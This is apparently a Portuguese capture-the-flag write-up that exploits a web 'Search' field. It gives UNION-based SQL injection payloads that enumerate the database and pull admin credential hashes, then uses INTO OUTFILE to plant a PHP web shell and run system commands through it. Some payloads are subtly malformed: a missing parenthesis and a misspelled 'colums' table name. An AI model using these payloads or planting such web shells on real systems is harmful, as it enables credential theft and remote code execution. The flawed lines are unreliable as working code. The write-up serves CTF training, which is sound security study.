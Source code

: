 Tags: #ctf #injection 

Acessado a página web na porta 80 do servidor temos um porta com o campo "Search":
![[Pasted image 20250609082805.png]]
Digitando qualquer palavra é retornada a primeira flag:
![[Pasted image 20250609082914.png]]
![[Pasted image 20250609082951.png]]

O próximo passo é tentarmos injetar alguns comandos SQLi para verificar se esse parâmetro é vulnerável a SQL injection
**Primero, precisamos identificar o número de colunas na tabela.**
	`' union select 1,2,3,4,5,6#`
![[Pasted image 20250609083230.png]]
Não retornou nada então vamos aumentar o número de colunas:
	`' union select 1,2,3,4,5,6,7#`
![[Pasted image 20250609083331.png]]
Aparentemente temos 7 colunas, e o número 2 fir refletido, vamos usar a coluna 2 para obter informações do banco de dado:
	`'union select 1,@@version,3,4,5,6,7#`
![[Pasted image 20250609083537.png]]
O resultado da consulta é 5.5.68-Maria-DB, agora irei pegar o nome do banco de dados.
	`'union select 1,database(),3,4,5,6,7#`
![[Pasted image 20250609083744.png]]
Temos o nome do banco de dados, agora pegarei os nomes das tabelas desse banco de dados.
	`' union select 1,table_name,2,3,4,5,6,7 from information_schema.tables where table_schema = 'news'#`
![[Pasted image 20250609083936.png]]
Temos os nomes das 6 tabelas,a tabela mais importante para nos é a tabela "tbladmin", então iremos lastar as colunas dessa tabela.
	`' union select 1, column_name,3,4,5,6,7 from information_schema.colums where table_name = 'tbladmin'#`
![[Pasted image 20250609084133.png]]
Para nós as mais importantes são **AdminUserName & AdminPassword**, então irei pegar os valores dessas, aqui vamos usar a função 'concat' que me permite adicionar duas ou mais expressões juntas.
	`' union select 1,concat(AdminUserName,":",AdminPassword),3,4,5,6,7 from tbladmin#`
![[Pasted image 20250609084350.png]]
E conseguimos o hash de senha em Bycrypt do admin. O Bcrypt oferece uma maior segurança do que os outros algoritmos criptográficos porque contém uma variável que é proporcional à quantidade de processamento necessário para criptografar a informação desejada, tornando-o resistente a ataques do tipo “força-bruta”.

Portanto não será possivel quebrar esse hash. Mais, como temos Inejeção de SQL, podemos tentar escrever uma webshell php em algum diretório que temos permisão de escrita. **Payload**:
	<?php system($_GET['cmd']) ?>
Depois de testar alguns diretórios, como: /var/www/html, /var/www/html/images, /var/www/html/vendor. Consigo gravar no diretório /var/www/html/includes o arquivo cmd.php que contém a payload. Comando SQL utilizado para gravar o arquivo:
	`' union select 1,"<?php system ($_GET['cmd'] ?>",3,4,5,6,7 into outfile "/var/www/html/includes/cmd.php"#
Portanto se acessarmos /includes, veremos que nosso arquivo foi gravado com sucesso:
![[Pasted image 20250609085107.png]]Para executar comandos no sistema iremos passar `/includes/cmd.php?cmd=whoami`
Aqui vou utilizar o comando 'id':
 ![[Pasted image 20250609085307.png]]